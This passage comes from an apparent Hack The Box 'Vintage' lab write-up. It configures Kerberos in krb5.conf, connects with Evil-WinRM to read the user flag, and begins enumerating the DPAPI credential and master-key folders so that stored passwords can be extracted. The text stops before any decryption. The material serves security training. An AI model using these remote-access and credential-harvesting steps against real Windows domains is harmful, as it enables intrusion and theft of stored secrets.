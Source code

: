 ### WinRM with Kerberos

When we attempt to connect via WinRM, we got an error that the KDC cannot be found. To fix this we need to edit our `/etc/krb5.conf` file as follows:

```console
$ cat /etc/krb5.conf
[libdefault]
        default_realm = VINTAGE.HTB

[realms]
        VINTAGE.HTB = {
                kdc = dc01.vintage.htb
                admin_server = dc01.vintage.htb
        }

[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```

We can now login with Evil-WinRM and get the user flag.

```console
$ evil-winrm -i dc01.vintage.htb -r vintage.htb

*Evil-WinRM* PS C:\Users\C.Neri\Documents> cat ../Desktop/user.txt
39047a49c3aba32d093084d6f0bcb4ea
```

## Root
### DPAPI Credential Extraction
We can look for any stored credentials and try to extract them. The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at `C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID`. Lets have a look if our user has any credentials stored.

```powershell
*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Credentials

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Protect

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
-a-hs-          6/7/2024   1:17 PM             24 CREDHIST
-a-hs-          6/7/2024   1:17 PM             76 SYNCHIST

*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
```